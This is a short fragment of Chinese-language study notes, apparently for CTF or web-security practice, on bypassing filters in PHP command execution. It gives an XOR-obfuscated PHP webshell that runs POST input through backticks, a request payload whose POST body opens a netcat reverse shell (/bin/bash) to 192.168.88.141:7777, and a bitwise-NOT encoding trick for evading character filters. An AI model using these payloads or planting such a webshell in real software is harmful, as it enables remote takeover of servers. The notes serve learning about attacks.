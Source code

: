 ```php
利用反引号
<?php
$_="!+/(("^"~{`{|"; # _POST
$__=$$_;
`$__[_]`;
?>
```

```php
?cmd=$_="!+/(("^"~{`{|";$__=$$_;`$__['_']`;
再在POST上提交_=nc 192.168.88.141 7777 -e /bin/bash
```

![image-20240316145034463](PHP命令执行.assets/image-20240316145034463.png)

### 取反绕过

~取反符号

```php
<?php
$a="a";
echo bin2hex($a);
?>
a的十六进制是61，二进制是01100001，取反后是
           			  10011110，对应十六进制是9E
<?php
$a="%9E";
$b=~(urldecode($a));
echo $b;
?>
输出为a
```
